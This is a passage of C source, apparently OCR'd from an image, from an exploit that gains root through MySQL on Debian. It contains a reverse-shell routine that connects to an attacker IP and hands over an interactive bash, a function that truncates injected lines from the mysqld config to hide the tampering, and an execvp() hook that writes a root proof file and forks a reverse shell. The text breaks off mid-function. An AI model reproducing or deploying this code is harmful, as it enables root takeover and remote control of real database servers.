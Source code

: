 ~~~~~~~~~~~~~~~~~~~~~~~~~
    srv_addr.sin_family = AF_INET; 
    srv_addr.sin_port = htons( SHELL_PORT ); // connect-back port
    srv_addr.sin_addr.s_addr = inet_addr(ATTACKERS_IP); // connect-back ip 

    // create new TCP socket && connect
    sockfd = socket( AF_INET, SOCK_STREAM, IPPROTO_IP );
    connect(sockfd, (struct sockaddr *)&srv_addr, sizeof(srv_addr));
        
    for(i = 0; i <= 2; i++) dup2(sockfd, i);
    execle( "/bin/bash", "/bin/bash", "-i", NULL, env_list );

    exit(0);
}


/*
 cleanup injected data from the target config before it is read by mysqld
 in order to ensure clean startup of the service

 The injection (if done via logging) will start with a line like this:

 /usr/sbin/mysqld, Version: 5.5.50-0+deb8u1 ((Debian)). started with:

*/

int config_cleanup() {

    FILE *conf;
    char buffer[2000];
    long cut_offset=0;

    conf = fopen(INJECTED_CONF, "r+");
    if (!conf) return 1;

    while (!feof(conf)) {
       fgets(buffer, sizeof(buffer), conf);
       if (strstr(buffer,"/usr/sbin/mysqld, Version")) {
          cut_offset = (ftell(conf) - strlen(buffer));
       }

    }
    if (cut_offset>0) ftruncate(fileno(conf), cut_offset);
    fclose(conf);
    return 0;

}


// execvp() hook
int execvp(const char* filename, char* const argv[]) {

    pid_t  pid;
    int fd;

    // Simple root PoC (touch /root/root_via_mysql)
    fd = open("/root/root_via_mysql", O_CREAT);
    close(fd);

    old_execvp = dlsym(RTLD_NEXT, "execvp");

    // Fork a reverse shell and execute the original execvp() function
    pid = fork();
    if (pid == 0) 
~~~~~~~~~~~~~~~~~~~~~~~~~